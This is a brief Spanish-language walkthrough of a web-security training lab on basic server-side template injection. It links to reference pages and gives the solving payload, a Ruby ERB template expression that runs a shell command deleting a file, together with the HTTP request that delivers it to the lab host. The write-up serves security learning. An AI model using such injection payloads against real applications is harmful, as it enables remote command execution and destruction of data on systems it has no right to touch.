



# Lab: Basic server-side template injection

Con ayuda de este recurso podemos enumerar SSTI

- https://www.vaadata.com/blog/server-side-template-injection-vulnerability-what-it-is-how-to-prevent-it/



Con ayuda de este recurso podemos eliminar el archivo indicado para completar el laboratorio.

- https://swisskyrepo.github.io/PayloadsAllTheThings/Server%20Side%20Template%20Injection/Ruby/#references

Por lo que para ejecutar comando podemos usar: `<%= system("rm /home/carlos/morale.txt") %>`

```c
GET /?message=<%=+system("rm+/home/carlos/morale.txt")+%> HTTP/2

Host: 0abb0096049e69f78524b3b4006400b8.web-security-academy.net

```




